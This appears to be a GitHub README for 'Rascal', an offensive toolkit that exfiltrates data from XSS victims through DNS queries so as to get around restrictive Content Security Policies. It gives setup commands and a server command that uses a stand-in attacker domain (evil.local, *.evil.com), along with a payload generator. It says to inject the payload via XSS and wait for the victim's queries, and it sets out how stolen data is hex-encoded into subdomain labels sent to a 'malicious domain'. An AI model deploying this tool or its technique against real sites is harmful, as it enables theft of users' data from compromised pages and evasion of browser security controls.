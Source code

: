 # Rascal

Rascal is a DNS exfiltration group of tools specificaly designed for XSS attacks, specially when restrictive CSP policies are found. 

## Install

First set up a SQlite db

```bash
sqlite3 rascal.db < init.sql
pip install -r requeriments.txt
```

## Usage
### Server
Start the server
```bash
python rascal.py --db /usr/local/bribon/bribon.db --domain evil.local -i "*.evil.com IN A 10.22.3.55" --logger bribonlogger
```

Where:

-  `--domain <domain>`: quieries within this domain will be parsed and recorded

-  `-i "<zone register>"`

-  `--logger <logger class>`: dynamically loaded class to log messages.

### Command line helper
Generate a payload
```bash
python rascalcl.py --code --domain <domain> 
```

Inject the payload within a XSS and wait until you have receive queries from victim. 


## Exfiltration details

Query format is the following one:
`<hex data>.<part>.<session>.<domain>`

Where:
- *hex data*: data codified in hexadecimal
- *part*: sequence ID of the whole data exfiltred. Data could be splitted in several parts that will be sent independently from the victim. This indicator allows the program to concat the data in order.
- *session*: this is a random generated string unique for each XSS execution. Allow to group all parts of a same session. Additionally, there is a custom label concatenated to the session sstring that allow to filter easily by tags different attacks tests.
- *domain*: your malicious domain where the query will be sent.


